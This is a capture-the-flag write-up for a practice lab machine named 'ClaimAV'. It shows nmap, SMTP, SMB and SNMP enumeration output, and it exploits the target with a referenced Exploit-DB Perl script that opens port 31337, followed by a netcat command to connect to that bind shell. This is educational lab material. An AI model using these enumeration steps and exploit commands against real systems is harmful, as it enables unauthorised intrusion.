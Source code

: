 #ClaimAV
Machine: [ClaimAV](https://portal.offensive-security.com/labs/practice)\
Difficulty: Easy


## Enumeration
What ports are open? 

```
22/tcp    open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
| ssh-hostkey: 
|   1024 303ea4135f9a32c08e46eb26b35eee6d (DSA)
|_  1024 afa2493ed8f226124aa0b5ee6276b018 (RSA)
25/tcp    open  smtp        Sendmail 8.13.4/8.13.4/Debian-3sarge3
| smtp-commands: localhost.localdomain Hello [192.168.49.150], pleased to meet you, ENHANCEDSTATUSCODES, PIPELINING, EXPN, VERB, 8BITMIME, SIZE, DSN, ETRN, DELIVERBY, HELP
|_ 2.0.0 This is sendmail version 8.13.4 2.0.0 Topics: 2.0.0 HELO EHLO MAIL RCPT DATA 2.0.0 RSET NOOP QUIT HELP VRFY 2.0.0 EXPN VERB ETRN DSN AUTH 2.0.0 STARTTLS 2.0.0 For more info use "HELP <topic>". 2.0.0 To report bugs in the implementation send email to 2.0.0 sendmail-bugs@sendmail.org. 2.0.0 For local information send email to Postmaster at your site. 2.0.0 End of HELP info
80/tcp    open  http        Apache httpd 1.3.33 ((Debian GNU/Linux))
|_http-server-header: Apache/1.3.33 (Debian GNU/Linux)
|_http-title: Ph33r
| http-methods: 
|_  Potentially risky methods: TRACE
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
199/tcp   open  smux        Linux SNMP multiplexer
445/tcp   open  netbios-ssn Samba smbd 3.0.14a-Debian (workgroup: WORKGROUP)
60000/tcp open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
| ssh-hostkey: 
|   1024 303ea4135f9a32c08e46eb26b35eee6d (DSA)
|_  1024 afa2493ed8f226124aa0b5ee6276b018 (RSA)
Service Info: Host: localhost.localdomain; OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 5h59m58s, deviation: 2h49m42s, median: 3h59m58s
|_nbstat: NetBIOS name: 0XBABE, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: share (dangerous)
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.14a-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-03-30T02:35:56-04:00
|_smb2-time: Protocol negotiation failed (SMB2)

```

### Credentials discovered (if any)

### Ports Info
#### SSH 22 and 60000
This version is not vulnerable. However, this might be leveraged if we find user credentials via other means of enumeration. 

#### SMTP 25
Just running nmap script we can enumerate users and other info. 
```
nmap 192.168.150.42 --script=smtp* -p 25
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-29 22:52 EDT
Nmap scan report for 192.168.150.42
Host is up (0.14s latency).

PORT   STATE SERVICE
25/tcp open  smtp
| smtp-commands: localhost.localdomain Hello [192.168.49.150], pleased to meet you, ENHANCEDSTATUSCODES, PIPELINING, EXPN, VERB, 8BITMIME, SIZE, DSN, ETRN, DELIVERBY, HELP
|_ 2.0.0 This is sendmail version 8.13.4 2.0.0 Topics: 2.0.0 HELO EHLO MAIL RCPT DATA 2.0.0 RSET NOOP QUIT HELP VRFY 2.0.0 EXPN VERB ETRN DSN AUTH 2.0.0 STARTTLS 2.0.0 For more info use "HELP <topic>". 2.0.0 To report bugs in the implementation send email to 2.0.0 sendmail-bugs@sendmail.org. 2.0.0 For local information send email to Postmaster at your site. 2.0.0 End of HELP info
| smtp-vuln-cve2010-4344: 
|_  The SMTP server is not Exim: NOT VULNERABLE
| smtp-enum-users: 
|   root
|   admin
|   administrator
|   webadmin
|   sysadmin
|   netadmin
|   guest
|   user
|   web
|_  test
|_smtp-open-relay: Server is an open relay (13/16 tests)

```

Searchsploit also reveals some information that might be useful.
![Results!](screenshots/4.png)

#### Http 80
I did not find any relevant vulnerabilities for the version installed on this port. The webpage just contain binary numbers, so I will convert that.  Before that, I will run directory scans, etc., and see what we find.
![Results!](screenshots/1.png)

Translating the binary text, I get this result: ifyoudontpwnmeuran00b.
![Results!](screenshots/2.png) 


I did not find anything in the directory scan that would be of use.
![Results!](screenshots/3.png)
#### SMB 139/445
Just based off the nmap output above, the authentication level is dangerous so this might be useful to us.
```
└─$ smbmap -H 192.168.150.42
[+] Guest session       IP: 192.168.150.42:445  Name: 192.168.150.42                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (0xbabe server (Samba 3.0.14a-Debian) brave pig)
        ADMIN$                                                  NO ACCESS       IPC Service (0xbabe server (Samba 3.0.14a-Debian) brave pig)
```

I also ran enum4linux to find other information.

#### Smux 1999
To enumerate this, I used snmpwalk. Below is a snipet of the output...it returned quite a bit of information.
```
snmpwalk -c public -v1 -t 10 192.168.150.42
iso.3.6.1.2.1.1.1.0 = STRING: "Linux 0xbabe.local 2.6.8-4-386 #1 Wed Feb 20 06:15:54 UTC 2008 i686"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (261487) 0:43:34.87
iso.3.6.1.2.1.1.4.0 = STRING: "Root <root@localhost> (configure /etc/snmp/snmpd.local.conf)"
iso.3.6.1.2.1.1.5.0 = STRING: "0xbabe.local"
iso.3.6.1.2.1.1.6.0 = STRING: "Unknown (configure /etc/snmp/snmpd.local.conf)"
iso.3.6.1.2.1.1.8.0 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.2.1.31
iso.3.6.1.2.1.1.9.1.2.2 = OID: iso.3.6.1.6.3.1
iso.3.6.1.2.1.1.9.1.2.3 = OID: iso.3.6.1.2.1.49
```


## Exploit
Using the perl script that was listed in the searchsploit output, allows us to open a port on the machine and connect to it. [Exploit db](https://www.exploit-db.com/exploits/4761). After running the script, we can see a new port open in the nmap output.
```
nmap -p 31337 -sV 192.168.150.42
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-30 15:37 EDT
Nmap scan report for 192.168.150.42
Host is up (0.21s latency).

PORT      STATE SERVICE VERSION
31337/tcp open  Elite?

```

To connect back to the victim machine, we can use the netcat tool to connect to the port that was opened after running the script. 
```
nc 192.168.150.42 31337 
```
## Local/User Flag
N/A for this machine.

## Root Flag
![Results!](screenshots/5.png)